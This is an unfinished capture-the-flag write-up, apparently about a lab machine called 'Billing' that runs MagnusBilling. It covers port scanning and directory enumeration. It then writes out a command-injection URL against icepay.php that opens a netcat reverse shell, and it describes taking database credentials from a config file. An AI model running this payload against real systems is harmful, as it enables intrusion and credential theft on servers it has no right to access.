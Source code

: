 # Billing

### Billing
Nmap scan finds ports 22,80,.3306 and 5038 open. 

    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
    |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
    |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
    80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
    | http-title:             MagnusBilling        
    |_Requested resource was http://10.10.51.171/mbilling/
    |_http-server-header: Apache/2.4.56 (Debian)
    | http-robots.txt: 1 disallowed entry 
    |_/mbilling/
    3306/tcp open  mysql    MariaDB (unauthorized)
    5038/tcp open  asterisk Asterisk Call Manager 2.10.6
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Gobuster discovers the following directories: <br />
![image](https://github.com/user-attachments/assets/2660e71b-f82e-486d-b403-eadb74210d1c)<br />
Moving around the website and enumerating directories, I found the following file: <br />
![image](https://github.com/user-attachments/assets/6de3594e-1895-41e4-88a5-c83865d05457)<br />
It means that some software called `MagnusBilling` is running. 
Looking around, I found [this website](https://sploitus.com/exploit?id=1337DAY-ID-39148) that shows a metasploit module to perform command injection. I'm actually not even sure if it works because I don't know how to check the version of this software, but anyway I'll try. <br />
I don't like metasploit really so I'll do it manually. The exploit is basically a command injection on a vulnerable php parameter. To exploit it, I open a netcat listener on port 9001 and then run:

    10.10.26.88/mbilling/lib/icepay/icepay.php?democ=/dev/null;busybox nc 10.11.85.53 9001 -e sh;#
This opens a reverse shell! Moving around the system, I found a configuration file containing a database password: <br />
![image](https://github.com/user-attachments/assets/9514e13a-e182-4f19-b21a-73589dc75bea)<br />
I use this credentials to log into the database. Looking around the DB I found a password: <br />
![image](https://github.com/user-attachments/assets/2ca1144d-1641-482e-924d-381b54baf72d)<br />
I'm having difficulties trying to crack this hash... TO BE CONTINUED...
![image](https://github.com/user-attachments/assets/831652bb-701c-421a-988b-8b54366f8652)
![image](https://github.com/user-attachments/assets/968e51b7-0ccd-44b0-8adf-fd2909a42452)
![image](https://github.com/user-attachments/assets/0ba82b85-6b0a-4c2f-8651-93303e189085)
![image](https://github.com/user-attachments/assets/9f1f540d-dbd7-4d38-ad2d-fb8d9a419036)

![image](https://github.com/user-attachments/assets/ef192e87-76be-413f-8392-2df98978bed1)
![image](https://github.com/user-attachments/assets/a08a6555-26a9-45b8-9769-10888100474e)

